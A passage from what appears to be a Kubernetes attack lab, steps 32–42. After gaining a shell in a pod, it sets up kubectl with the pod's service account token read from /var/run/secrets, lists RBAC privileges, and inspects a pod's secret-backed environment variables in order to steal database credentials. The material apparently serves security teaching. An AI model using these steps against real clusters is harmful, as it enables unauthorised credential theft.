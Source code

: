 32. Make the shell more interactive by starting a bash process with the `-i` flag:

    ```shell
    bash -i
    ```

33. Make the `kubectl` binary you just uploaded executable:

    ```shell
    chmod 755 kubectl
    ```

34. Set up a `kubectl` alias to use the existing cluster token:

    ```shell
    DIR='/var/run/secrets/kubernetes.io/serviceaccount/'
    alias kubectl="$(pwd)/kubectl --token=$(cat $DIR/token) \
    --certificate-authority=$DIR/ca.crt \
    --server=https://kubernetes.default.svc.cluster.local:443"
    ```

35. Check to see what privileges your user has in this pod:

    ```shell
    kubectl auth can-i --list
    ```

36. Notice that you are permitted to list and even create pods. Look for a line that starts with `pods` and ends with `[get list watch create]`.

37. List the pods in this namespace:

    ```shell
    kubectl get pods
    ```

38. It looks like the pod that showed us the ticket sales is called `view-seat-sales`. Use `kubectl describe` to get a human-friendly description of the pod:

    ```shell
    kubectl describe pod view-seat-sales
    ```

39. Notice that the `Environment` section says that this pod gets an environment variable called `PASSWORD` populated from the `password` key in the `transactions-secret` secret. It's similar for the `USER` environment variable.

40. Notice that the `Environment` section also says this pod gets an environment variable called `DBHOST` populated from the `dbhost` key in the `transactions-cm` configMap.

41. Look at the pod's manifest in YAML format to see how you can create pods that do this with their environment variables. Use the `grep` flag `-A` to see 10 lines **after** the matched line:

    ```shell
    kubectl get pod view-seat-sales -o yaml | grep -A 10 env:
    ```

42. Think about this - anyone who can start a pod in a namespace is able to have any secret in that namespace placed into their pod as an environment variable. We can use this to steal these database credentials.

